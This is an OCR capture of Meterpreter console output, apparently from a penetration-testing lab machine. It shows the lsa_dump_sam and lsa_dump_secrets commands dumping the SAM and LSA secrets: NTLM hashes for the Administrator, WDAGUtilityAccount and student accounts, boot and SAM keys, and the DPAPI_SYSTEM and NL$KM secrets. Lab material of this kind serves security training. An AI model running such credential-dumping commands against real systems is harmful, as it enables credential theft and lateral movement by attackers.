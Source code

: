 ```
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b

```

```
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
    full: c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c344deeed86740f1225378c3869b3b453b6378644
    m/u : c13a28e3947b645d9429b4c91c9b0cb1b65aaa2c / 344deeed86740f1225378c3869b3b453b6378644

Secret  : NL$KM
cur/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 
old/hex : 8d d2 8e 67 54 58 89 b1 c9 53 b9 5b 46 a2 b3 66 d4 3b 95 80 92 7d 67 78 b7 1d f9 2d a5 55 b7 a3 61 aa 4d 86 95 85 43 86 e3 12 9e c4 91 cf 9a 5b d8 bb 0d ae fa d3 41 e0 d8 66 3d 19 75 a2 d1 b2 

```
